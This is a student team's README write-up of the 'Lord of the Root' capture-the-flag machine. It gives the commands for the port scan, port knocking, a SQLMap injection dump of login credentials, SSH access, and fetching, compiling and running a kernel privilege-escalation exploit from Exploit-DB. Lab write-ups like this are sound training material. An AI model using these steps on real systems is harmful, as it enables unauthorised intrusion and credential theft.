 # DEPI-PROJECT
# LORD OF THE ROOT 🚀  

**"One does not simply walk into Mordor" – but today, we did.**  

This repository documents a complete penetration testing journey, filled with strategic reconnaissance, precise exploitation, and creative privilege escalation. Created in collaboration by **Osama, A.Essam, Ammar**, and team, this project reflects the team's ingenuity and persistence in the pursuit of root access.  

> **“There is only one Lord of the Ring, only one who can bend it to his will. And he does not share power.”**  
> – Gandalf  

---  

## 📖 Table of Contents  

- [About the Project](#about-the-project)  
- [Introduction](#introduction)  
- [Reconnaissance](#reconnaissance)  
  - [Identifying the Target](#identifying-the-target)  
  - [Port Knocking](#port-knocking)  
  - [Decoding Hidden Clues](#decoding-hidden-clues)  
- [Exploitation](#exploitation)  
  - [SQL Injection](#sql-injection)  
  - [Gaining Access](#gaining-access)  
- [Privilege Escalation](#privilege-escalation)  
- [The Final Flag](#the-final-flag)  
- [Lessons Learned](#lessons-learned)  
- [Acknowledgments](#acknowledgments)  

---  

## 💡 About the Project  

**LORD OF THE ROOT** is a simulated penetration testing exercise that showcases critical cybersecurity skills, including network discovery, vulnerability exploitation, and privilege escalation.  

This project is a testament to teamwork, persistence, and creative problem-solving in the field of cybersecurity.  

---

## 🔍 Introduction  

The journey begins with a challenge: break into the target machine, navigate its defenses, escalate privileges, and retrieve the coveted root flag.  

By employing methodical reconnaissance, identifying vulnerabilities, and crafting exploits, the team successfully navigates through the security layers of the system.  

---

## 🎯 Reconnaissance  

### Identifying the Target  

1. **Discovering the IP Address**  
   - Tool: `netdiscover`  
   - Result: Target's IP identified as **192.168.1.35**.  

2. **Initial Nmap Scan**  
   - Command:  
     ```bash
     nmap -sS -p- -Pn 192.168.1.35
     ```  
   - Outcome: Only **SSH (Port 22)** was open.  

### Port Knocking  

To uncover hidden ports, we used `knockit`:  
```bash
python Knockit.py 192.168.1.35 1 2 3
```  

- A new port **1337** was revealed.  

### Decoding Hidden Clues  

Examining the new service, we discovered Base64-encoded strings in the source code. These clues led us to potential endpoints:  

1. **First clue:**  
   ```bash
   hURL -b THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh
   ```  

2. **Second clue:**  
   ```bash
   hURL -b Lzk3ODM0NTIxMC9pbmRleC5waHA=
   ```  

---

## 💻 Exploitation  

### SQL Injection  

After identifying vulnerable endpoints, we captured an HTTP request into `MEDO.req` for further analysis:  
```plaintext
POST /978345210/index.php HTTP/1.1  
Host: 192.168.1.35:1337  
...
username=admin&password=password&submit=Login
```  

- Used **SQLMap** to exploit the injection point and extract database information:  
  ```bash
  sqlmap -r MEDO.req --dbs --dump --flush-session --batch --level=5
  ```  

### Gaining Access  

Using the credentials retrieved via SQLMap, we logged into the system as `smeagol`:  
```bash
ssh smeagol@192.168.1.35
```  

**We’re in!**  

---

## 🔑 Privilege Escalation  

1. **Kernel Version Check**  
   - Identified the kernel version to search for a compatible exploit.  

2. **Finding the Exploit**  
   - Located a privilege escalation exploit on **Exploit-DB**.  

3. **Compiling and Executing the Exploit**  
   - Commands:  
     ```bash
     wget https://www.exploit-db.com/download/39166
     gcc 39166.c -o medo
     ./medo
     ```  

**Root access achieved!**  

---

## 🏆 The Final Flag  

Navigated to the root directory:  
```bash
cd /root  
cat Flag.txt  
```  

**Flag Content:**  
> “There is only one Lord of the Ring, only one who can bend it to his will. And he does not share power.”  

---

## 📘 Lessons Learned  

1. **Reconnaissance**  
   - Tools like `netdiscover` and `nmap` are invaluable for identifying network details.  

2. **Exploitation**  
   - SQL injection remains a critical vulnerability and emphasizes the importance of secure coding practices.  

3. **Privilege Escalation**  
   - Kernel exploits demonstrate the need for regular system updates and patches.  

---

## 🙏 Acknowledgments  

This project is a collaborative effort by **Osama, A.Essam, Ammar**, and team. Together, we tackled challenges, explored vulnerabilities, and achieved our goals.  

> **Let’s hack the planet! 🚀**  

